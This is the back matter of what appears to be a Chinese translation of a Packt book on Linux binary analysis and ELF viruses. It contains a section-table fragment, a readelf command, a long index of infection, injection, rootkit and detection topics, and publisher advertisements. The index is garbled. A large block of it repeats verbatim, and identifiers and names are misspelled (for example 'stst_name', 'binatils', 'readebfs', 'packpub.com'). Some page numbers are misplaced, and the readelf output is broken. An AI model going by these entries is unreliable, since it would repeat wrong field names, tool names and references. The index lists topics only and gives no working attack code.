| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 0 | NULL | 0 | 0 | | | |
| 1 | .note | 0000000000000000 | 0 | | | |
| 2 | .kernel | 0000000000000000 | 0 | WA | | |
| 3 | .bss | 0000000001690000 | 0 | | | |
| 4 | .modules | 0000000000000000 | 0 | A | | |
| 5 | .shstrtab | 0000000000000000 | 0 | | | |

```bash
# readelf -s kcore.img | grep sys_call
34214: ffffffff80146 4368 OBJECT ia32
34379: ffffffff80c50 2928 OBJECT
```


# 索引

## B

- 基础 `itrace` 命令 4
- 二进制保护器
- 参考文献 139
- `binatils`
- 引用链接 1
- Bitlacks Research
- 引用链接 72
- Blackout
- URL 129
- Burnye 128

## 数据段感染

- 关于 104
- 算法 104, 105
- 数据结构
  - 感染 110
  - 直接 PLT 感染 108
  - 析程序，用于反向文本
  - 感染方法
- 引用链接 103
- DLL 注入踪迹

## 动态段，检查 153-155

- 关于 235
- 检测 235

## 动态段

- 关于 45
- 检查，用于 DLL 注入踪迹 153-155
- `DT_HASH` 46
- `DT_NEEDED` 46
- `DT_PLTGOT` 46
- `DT_STRTAB` 46
- `DT_SYMTAB` 46

## DynamicRIO 135

## C

- `call/pop` 技巧 153
- Cerberus ELF 接口
- 引用链接 5
- `code_inject.source` 源码 87
- 代码注入，使用 `ptrace` 79, 87
- `code_inject` 工具
  - 演示 88
- 代码混淆技术 118
- 复杂性，连带字符串存储
  - 关于 95
- 控制流，感染中
  - `.ctors`/ `.dtors` 函数指针覆盖 109
  - 直接 PLT 感染 108
  - 函数指针覆盖 110
  - 函数跳转 (trampolines) 109
  - 全局偏移表中毒 110
  - PLT/GDT 削减 110
- 控制流完整性，保护
  - 关于 137
  - 基于 `ptrace` 的确认 138
  - 基于安全漏洞的攻击 139
- 核心处理器
  - ECFS, 插入 196, 197

## E

### ECFS

- 关于 6, 170, 188, 195, 196, 242
- 历史 195, 196
- 参考指南 216
- 参考文献 196, 224
- 节段头部 217-220
- 符号表重建 216, 217
- 用于检查：已感染进程 199, 200

## ECFS 文件

- 使用，作为常规核心文件 221

## ECFS 快照

- 分析 200
- 捕获 200

## ECFS 快照，无杀进程进程

- 进程 197, 198

## ELF 反调试与壳技术

- `/proc/self/status` 技巧 117
- 关于 116
- 代码混淆技术 118

## D

## DacryFile

- 关于 127
- URL 127
- `PTRACE_TRACEME` 技巧 116
- `SIGTRAP` 处理器技巧 116, 117
- 字符串表转换技巧 118

## ELF 二进制加壳 121, 122

- ELF 二进制保护器
  - 关于 128
  - Burnoye 127
  - DacryFile 127
  - Maya's Veil 129
  - Shiva 128
- 关于 115
- 引用链接 115

### ELF 动态链接

- 关于 39
- 辅助向量 40, 41
- ELF 文件类型
  - 关于 10, 11
  - `ET_CORE` 10
  - `ET_DYN` 10
  - `ET_EXEC` 10
  - `ET_NONE` 10
  - `ET_REL` 10

## ELF 解析器

- 编码 48

### ELF 程序头

- 关于 11
- `PT_DYNAMIC` 13, 14
- `PT_INTERP` 15
- `PT_LOAD` 12, 13
- `PT_NOTE` 15
- `PT_PHDR` 15, 16
- ELF 重定位 31-35

## ELF 反向工程系统接口

- ERESI

## ELF 运行时感染

- 引用链接 56

## elfource

- 引用链接 119

## ELF 节段头部

- `.bss` 节 19
- `.dtors` 节 20-24
- `.data` 节 18
- `.dynstr` 节 19
- `.dnsym` 节 19
- `.got.plt` 节 19
- `.hash` 节 19, 20
- `.plt` 节 18
- `.rel.*` 节 19
- `.rodata` 节 18
- `.shstrab` 节 20
- `.strtab` 节 20
- `.symtab` 节 20
- `.text` 节 18
- 关于 16, 17

## ELF 符号

- 关于 24, 25
- `stst_int` 26
- `stst_name` 25
- `stst_other` 26
- `stst_shndx` 26
- `stst_size` 25
- `stst_value` 25
- 符号绑定 26-31
- 符号类型 26

## ELF 病毒检测 119

## ELF 病毒消毒 119

## ELF 病毒工程的挑战

- 关于 93
- 复杂性，连带字符串 95
- 执行控制流，传递给寄生虫 96
- 合法空间，寻找寄生虫代码 96
- 寄生虫代码必须自足 93

### ELF 寄生虫感染方法

- 关于 97
- 数据段节 104
- 反向文本感染 101, 102
- silvio padding 感染方法 97

## ELF 病毒技术 92

## 嵌入式调试

- 引用链接 5
- 模拟 CPU 不一致性
  - 检测 136
  - 模拟
  - 检测，通过系统调用测试 136
- 入口修改
  - 检测 142-146

## ERESI

- URL 36
- ERESI 项目
- 引用链接 5

## ET_DYN 注入

- 检测 175
- ET_DYN 注入内部
  - `__libc_dlplopen_mode` shellcode, 示例 180
  - 库符号解析，示例 181, 182
  - 寻找 `_libc_dlplopen_mode` 符号 180
  - `x86_32` shellcode, 映射到 `mmap2` 一个 `ET_DYN` 对象 182-184
- `ET_DYN` (共享对象) 注入 173
- `ET_REL` (可重定位对象) 注入 174
- 可执行映射 171
- 可执行重建
  - 挑战 74
  - 扩展控制流，传递给寄生虫的解决方案 96

## 复杂性，连带字符串存储

- 关于 95
- 控制流，感染中
  - `.ctors`/ `.dtors` 函数指针覆盖 109
  - 直接 PLT 感染 108
  - 函数指针覆盖 110
  - 函数跳转 (trampolines) 109
  - 全局偏移表中毒 110
  - PLT/GDT 削减 110

## 控制流完整性，保护

- 关于 137
- 基于 `ptrace` 的确认 138
- 基于安全漏洞的攻击 139

## 核心处理器

- ECFS, 插入 196, 197

## E

### ECFS

- 关于 6, 170, 188, 195, 196, 242
- 历史 195, 196
- 参考指南 216
- 参考文献 196, 224
- 节段头部 217-220
- 符号表重建 216, 217
- 用于检查：已感染进程 199, 200

## ECFS 文件

- 使用，作为常规核心文件 221

## ECFS 快照

- 分析 200
- 捕获 200

## ECFS 快照，无杀进程进程

- 进程 197, 198

## ELF 反调试与壳技术

- `/proc/self/status` 技巧 117
- 关于 116
- 代码混淆技术 118

## D

## DacryFile

- 关于 127
- URL 127
- `PTRACE_TRACEME` 技巧 116
- `SIGTRAP` 处理器技巧 116, 117
- 字符串表转换技巧 118

## ELF 二进制加壳 121, 122

- ELF 二进制保护器
  - 关于 128
  - Burnoye 127
  - DacryFile 127
  - Maya's Veil 129
  - Shiva 128
- 关于 115
- 引用链接 115

### ELF 动态链接

- 关于 39
- 辅助向量 40, 41
- ELF 文件类型
  - 关于 10, 11
  - `ET_CORE` 10
  - `ET_DYN` 10
  - `ET_EXEC` 10
  - `ET_NONE` 10
  - `ET_REL` 10

## ELF 解析器

- 编码 48

### ELF 程序头

- 关于 11
- `PT_DYNAMIC` 13, 14
- `PT_INTERP` 15
- `PT_LOAD` 12, 13
- `PT_NOTE` 15
- `PT_PHDR` 15, 16
- ELF 重定位 31-35

## ELF 反向工程系统接口

- ERESI

## ELF 运行时感染

- 引用链接 56

## elfource

- 引用链接 119

## ELF 节段头部

- `.bss` 节 19
- `.dtors` 节 20-24
- `.data` 节 18
- `.dynstr` 节 19
- `.dnsym` 节 19
- `.got.plt` 节 19
- `.hash` 节 19, 20
- `.plt` 节 18
- `.rel.*` 节 19
- `.rodata` 节 18
- `.shstrab` 节 20
- `.strtab` 节 20
- `.symtab` 节 20
- `.text` 节 18
- 关于 16, 17

## ELF 符号

- 关于 24, 25
- `stst_int` 26
- `stst_name` 25
- `stst_other` 26
- `stst_shndx` 26
- `stst_size` 25
- `stst_value` 25
- 符号绑定 26-31
- 符号类型 26

## ELF 病毒检测 119

## ELF 病毒消毒 119

## ELF 病毒工程的挑战

- 关于 93
- 复杂性，连带字符串 95
- 执行控制流，传递给寄生虫 96
- 合法空间，寻找寄生虫代码 96
- 寄生虫代码必须自足 93

### ELF 寄生虫感染方法

- 关于 97
- 数据段节 104
- 反向文本感染 101, 102
- silvio padding 感染方法 97

## ELF 病毒技术 92

## 嵌入式调试

- 引用链接 5
- 模拟 CPU 不一致性
  - 检测 136
  - 模拟
  - 检测，通过系统调用测试 136
- 入口修改
  - 检测 142-146

## ERESI

- URL 36
- ERESI 项目
- 引用链接 5

## ET_DYN 注入

- 检测 175
- ET_DYN 注入内部
  - `__libc_dlplopen_mode` shellcode, 示例 180
  - 库符号解析，示例 181, 182
  - 寻找 `_libc_dlplopen_mode` 符号 180
  - `x86_32` shellcode, 映射到 `mmap2` 一个 `ET_DYN` 对象 182-184
- `ET_DYN` (共享对象) 注入 173
- `ET_REL` (可重定位对象) 注入 174
- 可执行映射 171
- 可执行重建
  - 挑战 74
  - 扩展控制流，传递给寄生虫的解决方案 96

## P

- `PTRACE_PEEKTEXT` / `PTRACE_PEEKDATA` / `PTRACE_PEEKUSER` 54
- `PTRACE_POKETEXT` / `PTRACE_POKEDATA` / `PTRACE_POKERS` 55
- `PTRACE_SETOPTIONS` 55
- `PTRACE_SETREGS` 55
- `PTRACE_SETSIGINFO` 55
- `PTRACE_SINGLESTEP` 55
- `PTRACE_SYSCALL` 54
- `PTRACE_TRACEME` 技术 116
- 模拟的抗性，关于约 136
- 模拟的 CPU 不一致性，检测 136
- 模拟，通过系统调用测试检测 136
- 计时/延迟，某些指令之间的检查 137

## 报复 (Retaliation)

- 关于 92
- URL 92
- `ret` 指令示例 232

## 返回导向编程 (ROP) 132

- 反向文本感染，关于 101, 102
- 算法 103
- 反向文本感染方法参考链接 103
- 反向文本填充感染识别 156-158
- 运行时内核匹配参考链接 244

## Q

- 昆雅语 (Quenya) 关于 93, 115
- URL 36

## R

- `readebfs` 关于 198
- 寄生代码，提取自 206, 207
- `readdir` 命令 4
- 读+写*执行 (RWX) 95
- 常规核心文件 ECFS 文件，用作 221 232, 233
- 相对跳转 (`jmp`)
- 可重定位代码注入 115
- 可重定位代码注入-二进制-补丁 35-39
- 远程代码注入技术
- `.so` 注入，使用 `dlopen()` 壳代码 113, 114
- `.so` 注入，使用 `LD_PRELOAD` 111
- `.so` 注入，使用 `open()`/`map` 壳代码 114 113
- `.so` 注入，使用 `VDSO` 操纵 114 关于 111
- 可执行文件注入 115
- 可重定位代码注入 115
- 共享库注入 111
- 段代码注入 115

## S

- 萨曼 (Saruman) 关于 173
- 参考链接 173, 199

# Saruman v0.1

- URL 169
- Saruman 病毒 93
- 节头分析 202, 205
- 节头，ECFS
  - `.arglist` 221
  - `.auxvector` 220
  - `.DATA` 218
  - `.everpath` 221
  - `.heap` 218
  - `.personality` 221
  - `.procsfs.zg` 219
  - `.prstatus` 219
  - `.siginfo` 220
  - `.stack` 218
  - `.TEXT` 218
  - `.vdso` 218
  - `.vsyscall` 218
  - 关于 217
- 基于安全漏洞的攻击 139
- 共享库注入 111
- 共享库映射 171
- 共享对象加载关于 185
- 非法共享对象加载 185, 186
- 合法共享对象加载 185
- Shiva 197
- `SIGABRT` 197
- `SIGSEGV` 197
- `SIGTRAP` 处理技术 116, 117
- Silvio 填充感染用例 191
- Silvio 填充感染方法 97
- Silvio.text 感染方法 ALGORITHM 98
- Sekusi 病毒 URL 295
- `shld_focker` (phrack.so 注入论文) 关于 173
- 参考链接 173
- 栈关于 172
- `LD_PRELOAD`，在 177, 178 查找
- `static` 关键字 27
- 无符号栈 `vmlin` no 226
- 字符串表转换技术 118
- `strip` 227
- `stubc` 任务 124
- `stub` 机制 122, 123
- 符号劫持 240
- 符号表分析，201, 202
- 符号表重建，ECFS 216, 217
- `sys_call` 表检查，textify 238
- 导航，示例 228
- `sys_call_table` 修改检测 229
- 系统调用测试模拟，通过 136 检测
- 系统调用追踪 (`strace`) 3
- `sys_write` 劫持，在 32 位内核上 232

## T

- `taskverse` 关于 236
- 已用，用于查看隐藏进程 239
- `taskverse` 技术关于 239
- 参考链接 239
- 技术，用于劫持执行的
  - `dctors`，补丁 174
  - `dtors`，补丁 174
  - 内联函数钩子 174
  - `PLT/GOT` 重定向 174
  - `VDSO`，用于系统调用拦截的劫持 174
- `rectify` 用于检查 `sys_call_table` 238
- 已用，用于验证内核代码完整性 238
- 文本填充感染，VX Heaven 论文参考链接 97
- 段代码注入 115
- 文本填充感染示例，98
- 线程本地存储 (TLS) 57
- 工具，用于检测 `PLT/GOT` 钩子
  - ECFS 188
  - Linux VM Voodoo 188
  - Volatility `pluk_hook` 188
- `tracer` 56
- `tracer` 程序

## U

- UNIX 病毒关于 91
- URL 91
- UPX URL 121
- 用例，用于 Silvio 填充感染 101
- 有用的设备和文件
  - `/boot/System.map` 6
  - `/proc/mem` 6
  - `/proc/kallsyms` 6
  - `/proc/core` 5
  - `/proc/<pid>/maps` 关于 5 ECFS 6
- 用户态执行 关于 122, 233
- V 层 rootkits 关于 235
- 检测 236
- 虚拟共享对象。参见 VDSO
- Virus-Zines URL 91
- VMA Monitor 参考链接 195
- VMA Voodoo URL 11
- `vmlinux` 关于 225
- 构建，使用 `vmlinux` 补丁 236, 237
- Volatility `plt_hook` 关于 188
- `vcall` 172

## VDSO

- 关于 172
- 操纵 184
- VFS 函数指针验证 236

## 感谢购买

## 学习二进制分析

## 关于 Packt 出版

Packt，读音为 "packed"；于 2004 年 4 月出版了它的第一本书《Mastering php for Effective Management》，随后专注于出版针对特定技术和解决方案的高度针对性书籍。我们的书籍和出版物分享了您的 IT 专业人员在适应和定制当今系统、应用程序和框架方面的经验。我们基于解决方案的书籍为您提供了知识和力量，以定制您正在使用的软件和技术来完成工作。Packt 的书籍比您过去看到的 IT 书籍更具体，不那么泛泛。我们的业务模式允许我们为您提供更多您需要的，少提供您不需要。Packt 是一家现代独特的出版公司，专注于为开发者、管理员和新手的社区生产高质量的前沿书籍。欲更多信息，请访问我们的网站 www.packpub.com。

## 关于 Packt 开源

2010 年，Packt 推出了两个新品牌：Packt Open Source 和 Packt Enterprise，以继续其专业化关注。这本书是 Packt Open Source 品牌的一部分，涵盖了围绕开源许可证构建的软件书籍，并为从高级开发人员到初级 Web 设计师的任何人提供信息。开源品牌还运行 Packt 的开源版税计划，通过该计划，Packt 将为每个销售了软件书籍的开源项目支付版税。

## 为 Packt 写作

我们欢迎所有对写作感兴趣的人士咨询。书籍建议书应发送至 `author@packpub.com`。如果您的想法仍处于早期阶段，并且希望在编写正式书籍之前进行讨论，请联系我们；我们的一个约稿编辑将与您联系。我们不仅在寻找已出版的作者；如果您拥有过的技术技能但没有写作经验，我们丰富的编辑可以帮助您发展写作生涯，或者仅仅为您的专业知识获得额外的奖励。

## PACKT 开源

## 学习 SciPy 进行数值和科学计算

ISBN: 978-1-78216-162-2 平装版：150 页

这是一个实用的教程，保证利用 Python 的力量为您的数值和科学计算问题提供快速、准确且易于编码的解决方案

- SciPy 保证为数值和科学计算应用提供快速、准确且易于编码的解决方案。
- 使用矩阵执行复杂操作，包括特征值问题、矩阵分解或大型方程组的求解。
- 轻松实现媲美任何昂贵软件的统计分析和数据挖掘。

## Python 数据分析

ISBN: 978-1-78355-335-8 平装版：348 页

学习如何使用流行的开源 Python 模块应用强大的数据分析技术

- 使用简洁高效的 Python 代码执行高级的线性代数和数学计算。
- 使用机器学习和统计程序分析大数据集。
- 从各种数据源提取、转换和加载结构化及非结构化数据。

请查看 www.PacktPub.com 获取我们书籍的信息

## Linux Shell 脚本精要

ISBN: 978-1-78528-444-1 平装版：282 页

学习 shell 脚本以解决复杂的 shell 相关问题并高效地自动化您的日常任务

- 通过学习一些强大的 shell 功能获得对终端的良好控制。
- 通过编写 shell 脚本实现重复性工作的自动化。
- 本书充满了易于操作的实用示例，将帮助您建立编写任何类型 shell 脚本的信心。

## Linux Shell 脚本

ISBN: 978-1-78528-621-6 平装版：306 页

通过突破编写枯燥代码的做法，释放 shell 脚本的力量来解决现实世界的问题

- 通过这本实用书籍，学习如何高效有效地构建脚本并开发高级应用程序。
- 通过编写专业真实的脚本，开发高质量高效的解决方案，并通过检查 shell 追踪来调试脚本。
- 一个循序渐进的教程，通过开发从基础水平到非常高级功能的脚本来实现常规任务的自动化。
